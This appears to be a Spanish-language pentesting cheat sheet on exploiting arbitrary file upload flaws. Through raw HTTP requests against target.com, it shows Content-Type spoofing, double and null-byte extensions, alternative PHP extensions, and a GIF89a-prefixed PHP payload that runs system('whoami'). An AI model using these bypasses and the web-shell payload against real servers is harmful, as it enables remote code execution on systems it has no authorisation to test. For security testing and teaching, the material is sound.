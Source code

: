 # Arbitrary File Upload

Vulnerabilidad de carga de archivos arbitrarios que permite a un atacante cargar archivos maliciosos en un servidor. 

Se puede encontrar en funciones de carga de archivos, por ejemplo, en la carga de perfil de fotos

# Explotando

1 - Modificar el valor del Content-Type 

Respuesta del servidor:

    POST /images/upload/ HTTP/1.1
    Host: target.com
    ...
    Content-Disposition: form-data; name="uploaded"; filename="vuln.php"
    Content-Type: application/x-php
    
Nosotros deberíamos modificarlo asi:

    POST /images/upload/ HTTP/1.1
    Host: target.com
    ...
    Content-Disposition: form-data; name="uploaded"; filename="vuln.php"
    Content-Type: image/jpeg
    
2 - Intente cambiar la extensión cuando envíe la solicitud, por ejemplo, en éste caso no se puede cargar un archivo php, pero puede cargar un archivo jpg

Respuesta del servidor:

    POST /images/upload/ HTTP/1.1
    Host: target.com
    ...
    Content-Disposition: form-data; name="uploaded"; filename="vuln.php"
    Content-Type: application/x-php

Manipulando la respuesta agregando la extensión jpg al final:

    POST /images/upload/ HTTP/1.1
    Host: target.com
    ...
    Content-Disposition: form-data; name="uploaded"; filename="vuln.php.jpg"
    Content-Type: application/x-php
    
3 - Cargue la carga útil, pero comience con GIF89a; 

    POST /images/upload/ HTTP/1.1
    Host: target.com
    ...
    Content-Disposition: form-data; name="uploaded"; filename="vuln.php"
    Content-Type: image/gif

    GIF89a; <?php system("whoami") ?>
    
Y no olvide cambiar el Content-Type a imagen/gif     

4 - Usando un null byte en el nombre del archivo

    file.php%00.gif
    
5 - Subir extensiones php impopulares (php4,php5,php6,phtml)

    file.php5
    
6 - Intente poner en mayúsculas aleatoriamente la extensión del archivo

    file.pHP5

